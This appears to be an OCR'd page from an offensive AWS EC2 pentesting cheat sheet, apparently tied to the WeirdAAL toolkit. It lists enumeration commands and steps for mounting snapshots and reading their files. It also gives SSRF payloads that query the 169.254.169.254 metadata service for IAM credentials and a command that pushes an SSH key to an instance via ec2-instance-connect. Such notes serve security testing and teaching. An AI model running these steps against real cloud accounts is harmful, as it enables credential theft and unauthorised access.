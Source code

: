```
# WeirdAAL https://github.com/carnal0wnage/weirdAAL
```

## **EC2**

### **EC2 basic commands**

```
# Like traditional host
- Port enumeration
- Attack interesting services like ssh or rdp

aws ec2 describe-instances
aws ssm describe-instance-information
aws ec2 describe-snapshots
aws ec2 describe-security-groups --group-ids <VPC Security Group ID> --region <region>
aws ec2 create-volume --snapshot-id snap-123123123
aws ec2 describe-snapshots --owner-ids {user-id}

# SSH into created instance:
ssh -i ".ssh/key.pem" <user>@<instance-ip>
sudo mount /dev/xvdb1 /mnt
cat /mnt/home/ubuntu/setupNginx.sh

# EC2 security group
aws ec2 describe-security-groups
aws ec2 describe-security-groups --filters Name=ip-permission.cidr,Values='0.0.0.0/0' --query "SecurityGroups[*].[GroupName]" --output text
```

### **EC2 example attacks**

````
# SSRF to http://169.254.169.254 (Metadata server)
curl http://<ec2-ip-address>/\?url\=http://169.254.169.254/latest/meta-data/iam/security-credentials/
http://169.254.169.254/latest/meta-data
http://169.254.169.254/latest/meta-data/ami-id
http://169.254.169.254/latest/meta-data/public-hostname
http://169.254.169.254/latest/meta-data/public-keys/
http://169.254.169.254/latest/meta-data/network/interfaces/
http://169.254.169.254/latest/meta-data/local-ipv4
http://169.254.169.254/latest/meta-data/public-keys/0/openssh-key/
http://169.254.169.254/latest/user-data

# Find IAM Security Credentials
http://169.254.169.254/latest/meta-data/
http://169.254.169.254/latest/meta-data/iam/
http://169.254.169.254/latest/meta-data/iam/security-credentials/

# Using EC2 instance metadata tool
ec2-metadata -h
# With EC2 Instance Meta Data Service version 2 (IMDSv2):
Append X-aws-ec2-metadata-token Header generated with a PUT request to http://169.254.169.254/latest/api/token

# Check directly for metadata instance
curl -s http://<ec2-ip-address>/latest/meta-data/ -H 'Host:169.254.169.254'

# EC2 instance connect
aws ec2 describe-instances | jq ".[][].Instances | .[] | {InstanceId, KeyName, State}"
aws ec2-instance-connect send-ssh-public-key --region us-east-1 --instance-id INSTANCE_WE_GOT_PREVIOUSLY --availability-zone zone --instance-os-user ubuntu --ssh-public-key file://shortkey.pub
````